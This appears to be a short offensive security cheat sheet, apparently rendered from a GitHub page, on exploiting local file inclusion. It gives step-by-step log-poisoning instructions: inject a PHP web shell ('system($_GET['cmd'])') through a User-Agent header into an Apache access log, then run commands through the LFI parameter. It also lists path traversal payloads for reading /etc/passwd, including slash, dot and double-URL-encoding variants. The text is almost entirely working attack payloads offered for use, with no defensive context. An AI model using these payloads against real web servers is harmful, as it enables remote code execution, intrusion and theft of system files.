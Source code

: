 # LFI

If you locate an LFI, first try to get RCE.

### 1) Locate a writable log file

    /var/log/apache2/access.log

### 2) Inject a payload

Inject a simple web shell payload into a request header (e.g., User-Agent or Referer) that the web server will log.

Payload:

    <?php echo system($_GET['cmd']); ?>

### 3) Execute via LFI

    http://example.com/vulnerable.php?page=/path/to/log/access.log&cmd=whoami

## Path Traversal manual payloads

Simple traversal: start with 

    ../../../../etc/passwd 

Try variants like : 

    ..//..//..//etc/passwd 
    
or 

    ..\/..\/..\/etc/passwd.

Dot+slash permutations: 

    ..././../ 
    
or 

    ..%2f..%2f..%2fetc/passwd (URL encoded).

Try Double-encoding: 

URL-encode twice if the app decodes input more than once (example: %252e%252e%252f = %2e%2e%2f).
